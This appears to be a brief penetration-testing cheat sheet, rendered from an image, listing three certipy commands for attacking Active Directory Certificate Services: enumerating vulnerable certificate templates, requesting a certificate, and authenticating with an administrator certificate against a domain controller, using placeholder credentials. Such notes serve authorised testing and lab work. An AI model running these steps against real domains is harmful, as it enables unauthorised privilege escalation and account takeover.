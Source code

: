 # Basic

1.  **look for templates to abuse**

```bash
certipy find -vulnerable -u user@domain.local -p Passw0rd -dc-ip 10.10.11.236  
```
  
  2.  **Request Cert**

```bash
certipy req -username user@domain.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template User
```
  
3. **Auth with cert**

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236  
```

